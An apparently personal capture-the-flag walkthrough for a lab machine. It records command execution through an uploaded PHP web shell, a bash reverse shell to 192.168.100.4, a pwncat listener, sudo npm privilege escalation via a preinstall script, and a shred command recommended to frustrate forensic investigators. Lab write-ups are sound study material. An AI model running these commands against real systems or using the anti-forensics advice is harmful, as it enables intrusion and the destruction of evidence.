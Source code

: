

http://broadcast.shuriken.local/files/photos/2023/08/08/1691461034652393.php?cmd=whoami

bash -c "bash -i >%26 /dev/tcp/192.168.100.4/443 0>%261"

i have been instaled pwncat-cs.. so i can have interactive consoles with pwncat

1 pwncat-cs -lp 443
2 back
3 if you have not "clear" cmd you export TERM=xterm

when you want to delete someting and it will more dificult to reconsstruct for forensic invesstigations use

shred -zun 10 -v *

all right we are on the we cannot have acces to "server-management" folder so we need to scalate on priviledges, surely we are going to see in the groups what kind of posibilities we have

id= no groups
sudo -l= we can execute as (server-management) NOPASSWD: usr/bin/npm command

sudo -u -server-management npm 

**- Abusing sudoers privilege (npm) [User Migration]**


gtfobins
```

TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```
we must put -u  server-management

so this is the command, 

sudo npm -C $TF --unsafe-perm i 


TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u  server-management npm -C $TF --unsafe-perm i


WE CANNOT DO IT WE MUST GIVE PERMISSIONS FIRST... we ust put echo $TF ... to see the path of this variable


and is this 

```
/tmp/tmp.s5RPXZx7ZT

```
chmod 777 -R /tmp/tmp.s5RPXZx7ZT

NOW IT WORKED....

SO.. whoami 
